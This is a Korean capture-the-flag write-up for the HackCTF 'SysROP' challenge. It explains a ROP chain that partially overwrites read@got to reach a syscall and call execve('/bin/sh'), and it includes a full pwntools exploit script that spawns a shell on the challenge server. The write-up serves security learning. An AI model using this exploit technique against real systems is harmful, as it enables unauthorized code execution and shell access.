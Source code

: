 ```yaml
---
title: "[HackCTF]SysROP"
date: 2019-12-29
ctf: HackCTF
layout: post
published : false
---
```


그냥 웬만한 gadget 다 있길래 그냥 릭해서 풀라고 했는데 출력함수가 없었다.. 근데 가젯중에 `0x00000000004005ea : pop rax ; pop rdx ; pop rdi ; pop rsi ; ret` 이런게 존재해서 rax에 syscall 번호를 넣어주고 가젯들 세팅해주면 syscall을 이용할 수 있을거다. read 함수에서 syscall이 있어서 이를 이용하면 될거다.

`read@got`의 하위 1바이트를 0x5e로 overwrite하면 read함수 호출할 때마다 syscall이 호출될거다.

![](https://user-images.githubusercontent.com/32904385/71559865-62dfe700-2aa6-11ea-8af8-3498559254dd.png)

syscall을 이용해 `execve` 를 호출해 `execve('/bin/sh\x00',0,0)` 이런식으로 넣어주면 쉘이 실행될거다.

data영역에 `/bin/sh\x00` 을 넣고 `read@got` 의 하위 1바이트는 overwrite 해서 syscall 호출해 인자를 `execve('/bin/sh\x00',0,0)`  이렇게 만들어주면 된다. execve의 syscall num은 59다.

> exploit.py

```python
from pwn import *

e = ELF('./sysrop')
# p = process('./sysrop')
p = remote('ctf.j0n9hyun.xyz',3024)
libc = ELF('./libc.so.6')

data = 0x601030
syscall_gadget = 0x00000000004005ea # pop rax ; pop rdx ; pop rdi ; pop rsi ; ret
pop3ret = 0x00000000004005eb # pop rdx ; pop rdi ; pop rsi ; ret
main = 0x00000000004005F2

payload = 'A'*0x18
payload += p64(pop3ret)
payload += p64(10) # rdx
payload += p64(0) # rdi
payload += p64(data) # rsi
payload += p64(e.plt['read'])
payload += p64(main)

p.sendline(payload)
sleep(0.1)
p.sendline('/bin/sh\x00')
sleep(0.1)

payload2 = 'A'*0x18
payload2 += p64(pop3ret)
payload2 += p64(1)# rdx
payload2 += p64(0) # rdi
payload2 += p64(e.got['read']) # rsi
payload2 += p64(e.plt['read'])

payload2 += p64(syscall_gadget)
payload2 += p64(59) # rax
payload2 += p64(0) # rdx
payload2 += p64(data) # rdi
payload2 += p64(0) # rsi
payload2 += p64(e.plt['read'])

p.sendline(payload2)
sleep(0.1)
p.sendline('\x5e')
sleep(0.1)

p.interactive()
```


